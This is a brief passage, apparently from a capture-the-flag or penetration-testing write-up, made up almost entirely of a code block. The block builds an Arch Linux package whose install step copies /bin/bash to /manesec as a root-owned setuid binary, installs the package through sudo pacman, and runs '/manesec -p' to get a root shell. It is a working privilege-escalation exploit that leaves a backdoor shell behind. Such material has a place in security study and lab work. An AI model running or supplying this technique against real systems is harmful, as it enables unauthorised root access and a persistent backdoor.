 ```Plain Text
    install -Dm4777 -o root -g root "/bin/bash" "\$pkgdir/manesec"
}
EOF

makepkg -s
sudo pacman -U mane-1.0.2-1-any.pkg.tar.zst --noconfirm

/manesec -p 
```

